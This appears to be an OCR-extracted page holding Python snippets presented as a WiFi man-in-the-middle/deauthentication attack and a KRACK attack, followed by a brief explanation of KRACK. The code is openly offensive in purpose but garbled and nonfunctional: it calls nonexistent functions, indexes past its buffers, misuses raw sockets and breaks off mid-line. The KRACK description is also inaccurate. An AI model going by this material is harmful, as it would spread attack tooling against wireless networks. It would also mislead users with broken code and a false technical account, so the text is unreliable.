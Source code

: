 This attack involves positioning yourself between two communicating parties (in this case, a client and an access point) to intercept and modify data being transmitted. Here's an example Python code snippet:

\begin{verbatim}
python

import socket
def mitm_attack(bssid, channel):
    # create a socket object
    s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.ntohs(0x00003))
    # get the MAC address of the target access point
    ap_mac = socket.ether_aton('00:00:00:00:00:00')
    # create a packet to deauthenticate the client
    deauth_packet = bytearray(len(ap_mac) + 1 + 6)
    deauth_packet[0] = 0x8c
    deauth_packet[5] = 0x00
    for i in range(6):
        deauth_packet[6+i] = ap_mac[i]
    # send the deauthentication packet
    s.sendto(deauth_packet, (bssid, channel))
    # create a new access point with the same SSID as the original
    ssid = 'attacked_network'
    ap_mac = '00:00:00:00:00:00'
    ap_packet = bytearray(len(ssid) + 1 + 6)
    ap_packet[0] = 0x00
    ap_packet[1] = 0x00
    ap_packet[2] = 0x00
    ap_packet[3] = 0x00
    ap_packet[4] = 0x00
    ap_packet[5] = 0x00
    for i in range(6):
        ap_packet[6+i] = ssid[i]
    ap_packet[12] = 0x02
    ap_packet[13] = 0x00
    ap_packet[14] = 0x00
    ap_packet[15] = 0x00
    # send the access point packet
    s.sendto(ap_packet, (bssid, channel))
    # create a new socket to communicate with the

    deauth_packet[1] = 0x00
    deauth_packet[2] = 0x00
    deauth_packet[3] = 0x00
    \texttt{deauth_packet[4] = 0x00}

* 3 KRACK Attack
Python code demonstrating a WiFi KRACK Attack:

```
python

def krack_attack(bssid, channel):
    # create a socket object
    s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.ntohs(0x00003))
    # get the MAC address of the target access point
    ap_mac = socket.ether_aton('00:00:00:00:00:00')
    # create a replay packet
    replay_packet = bytearray(len(ap_mac) + 1 + 6)
    replay_packet[0] = 0x88
    replay_packet[1] = 0x8E
    replay_packet[2] = 0x08
    replay_packet[3] = 0x00
    replay_packet[4] = 0x00
    replay_packet[5] = 0x00
    for i in range(6):
        replay_packet[6+i] = ap_mac[i]
    # send the replay packet
    s.sendto(replay_packet, (bssid, channel))
    # create a new socket to communicate with the target client
```
The KRACK Attack exploits a vulnerability in the 4-way handshake process used by WPA2-protected WiFi networks. During this process, the client and access point exchange nonce values to ensure message authenticity. The attacker can intercept (e.g., MiTM attack) and modify these nonce values to force the client and access point into an infinite loop, allowing the attacker to decrypt and inject data into the communications channel.


\end{verbatim}
